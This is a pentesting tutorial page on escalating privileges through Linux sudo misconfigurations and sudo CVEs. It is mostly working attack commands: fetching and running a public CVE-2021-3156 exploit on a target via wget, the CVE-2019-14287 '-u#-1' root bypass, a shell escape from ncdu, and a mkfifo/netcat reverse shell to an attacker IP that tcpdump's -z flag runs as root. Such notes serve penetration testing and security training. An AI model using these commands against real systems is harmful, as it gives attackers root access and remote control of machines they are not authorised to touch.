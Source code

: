 ```yaml
---
title: Sudo Rights Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Sudo Rights Abuse

When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`. 

Therefore the  `/etc/sudoers` file specifies which users or groups are allowed to run specific programs and with what privileges.

```bash
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

```
sudo -l
```


## Vulnerable sudo version

Find out the version of `sudo`:

```shell-session
sudo -V | head -n1
```

### CVE-2021-3156: hax-me-a-sandwich

This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

Proof of concept: [https://github.com/blasty/CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

In our attacking machine:

```
git clone https://github.com/blasty/CVE-2021-3156.git
cd CVE-2021-3156
make
```

This will generate the file sudo-hax-me-a-sandwich. Now we serve this file from our attacking machine:

```
python3 -m http.server 80
```

From the target machine:

```
wget http://$IPAttackingMachine/sudo-hax-me-a-sandwich
chmod +x sudo-hax-me-a-sandwich
./sudo-hax-me-a-sandwich
```

### CVE-2019-14287: Sudo Policy Bypass

Another vulnerability was found in 2019 that affected all versions below 1.8.28, which allowed privileges to escalate even with a simple command. 

CVE-2019-14287: [https://www.sudo.ws/security/advisories/minus_1_uid/](https://www.sudo.ws/security/advisories/minus_1_uid/)

When sudo is configured to allow a user to run commands as an arbitrary user via the `ALL` keyword in a Runas specification, it is possible to run commands as root by specifying the user ID -1 or 4294967295.

Exploiting the bug requires that the user have sudo privileges that allow them to run commands with an arbitrary user ID.

```bash
sudo -l
```

Output:

```shell-session
Matching Defaults entries for htb-student on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User htb-student may run the following commands on ubuntu:
    (ALL, !root) /bin/ncdu
```

This means that when we can run the command `/usr/bin/ncdu` as any user, except for the user root.

However, if we run it this way

```
sudo -u#-1 /bin/ncdu
```

The system may fallback to 0, which is the root user id:

```
root:x:0:0:root:/root:/bin/bash
```

After entering into `bin/ncdu` spawn a shell with several methods:

- Entering an exclamation mark: !
- With `/bin/bash -i`


## tcpdump

For instance:

```shell-session
sudo -l
```

Output:
 
```
Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. 

For example, an attacker could create the shell script `.test` containing a reverse shell:

```shell-session
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IPAttacker 1234 >/tmp/f
```

Then, we set a listener in the attacking machine:

```
nc -lvnp 1234
```

And then, run `tcpdump` as root with the `postrotate-command`.

```shell-session
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution.